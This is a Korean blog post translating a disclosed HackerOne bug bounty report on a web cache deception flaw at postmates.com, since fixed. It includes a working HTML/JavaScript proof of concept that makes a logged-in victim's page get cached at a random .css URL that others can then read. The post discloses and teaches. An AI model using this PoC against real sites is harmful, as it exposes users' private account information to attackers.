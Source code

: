 ```yaml
---
layout: post
title: 사용자 정보를 유출시킬 수 있는 웹 캐시 포이즈닝 (postmates.com)
categories: PoC
tags: [Bugbounty, CachePoisoning, Translation, Hackerone]
---
```

Web Cache Poisoning에 대해 설명되어있는 유튜브 영상 :
{% include youtube_embed.html id="1d1tUefYn4U" %}
- - -
출처 : [hackerone hacktivity, 작성자 : David Albert (davidalbert)] https://hackerone.com/reports/492841

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 2월 26일 오후 9시 37분에 공개되었습니다. Postmates에 리포팅 되었으며, 해당 페이지는 Postmates의 자산입니다. 취약점의 종류는 Violation of Secure Design Principles이며, 포상금은 $500달러로 한화로 약 57만원 입니다. 해당 취약점은 해당 도메인에서 8.2/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
# 설명
안녕하세요,

당신의 웹 서버는 웹 캐시 포이즈닝 공격에 취약합니다. 이 말은 즉, 공격자가 다른 사용자의 정보를 탈취할 수 있다는 것입니다.

예를 들어, 당신이 이 페이지에 방문하여 로그인을 한다고 가정하면 : https://postmates.com/SomeRandomText.css

서버는 캐시에 그 정보를 저장할 것입니다. 하지만 로그인 된 사용자의 정보가 저장이 될 것입니다 🙂 로그인하지 않은 사용자 여기 해당 사이트에 방문이 가능하며 그곳에 저장되어있는 정보를 볼 수 있습니다. 이 경우에는 다음 url이 해당됩니다 : https://postmates.com/SomeRandomText.css

저는 간단한 javascript/html 코드를 작성했고, 이것은 해당 공격을 완전히 자동화해서 실행시킬 수 있는 코드로, 당신은 해당 사이트에 방문해 3초만 기다리시면 됩니다.

여기 간단한 개념증명(PoC) 코드가 있습니다 :
{% highlight html %}
<html>
<head>
</head>
<body>
<script>
    var cachedUrl = 'https://postmates.com/' + generateId() + '.css';
    const popup = window.open(cachedUrl);

    function generateId() {
        var content = '';
        const alphaWithNumber = 'QWERTZUIOPASDFGHJUKLYXCVBNM1234567890';

        for (var i = 0; i < 10; i++) {
            content += alphaWithNumber.charAt(Math.floor(Math.random() * alphaWithNumber.length))
        }
        return content;
    }

    var checker = setInterval(function() {
        if (popup.closed) {
            clearInterval(checker);
        }
    }, 200);
    var closer = setInterval(function() {
        popup.close();
        document.body.innerHTML = 'Victims content is now cached <a href="' + cachedUrl + '">here and the url can be saved on the hackers server</a><br><b>Full Url: ' + cachedUrl + '</b>'; 
        clearInterval(closer);
    }, 3000);

</script>
</body>
</html>
{% endhighlight %}

**Pic Links:**  
[1_Logged_in_(Normal)]({{site.baseurl}}/images/1_Logged_in_(Normal).png)
[2_Logged_in_(Normal)]({{site.baseurl}}/images/2_Logged_in_(Normal).png)
[3_Not_Logged_in_(Private_Mode)]({{site.baseurl}}/images/3_Not_Logged_in_(Private_Mode).png)
[4_Not_Logged_in_(Private_Mode)]({{site.baseurl}}/images/4_Not_Logged_in_(Private_Mode).png)
[5_Logged_in_Victim_visits_attackers_website_(Normal)]({{site.baseurl}}/images/5_Logged_in_Victim_visits_attackers_website_(Normal).png)
[6_Everyone_can_see_the_logged_in_content_on_this_website_(Private_Mode)]({{site.baseurl}}/images/6_Everyone_can_see_the_logged_in_content_on_this_website_(Private_Mode).png)
![7_Attacker_can_get_important_informations_(Private_Mode)]({{site.baseurl}}/images/7_Attacker_can_get_important_informations_(Private_Mode).png)

이론상으로, 공격자는 이 정보를 그 자신만의 서버에 저장할 수 있지만, 이 예시에서는 URL이 단지 보여지기만 했습니다. 웹사이트 보안을 위해 꾸준히 지켜봐주셨으면 합니다 그리고 제 리포트가 도움이 되었길 희망합니다.

해당 공격에 대한 몇가지 정보 : https://www.blackhat.com/docs/us-17/wednesday/us-17-Gil-Web-Cache-Deception-Attack.pdf

덧1) 개념증명(PoC) 프로젝트로써, 팝업을 허용하는 것은 중요합니다. 깜빡했네요 여기 첨부 파일이 있습니다 :  
<a href="{{site.baseurl}}/attach/postmatesPoC.html" download>postmatesPoC 다운로드</a>

덧2) 지난번에 전혀 방문하지 않았던 URL이어야 합니다. 그러면 성공할 것이고 서버는 정보를 저장하게 될 것 입니다. URL의 끝은 반드시 ".css"로 해주세요.
- - -
# 영향
웹 캐시 포이즈닝 공격은 로그인 보안에 중요한 이름과 멤버 아이디와 같은 사용자 정보들을 훔칠 수 있습니다(예시로요).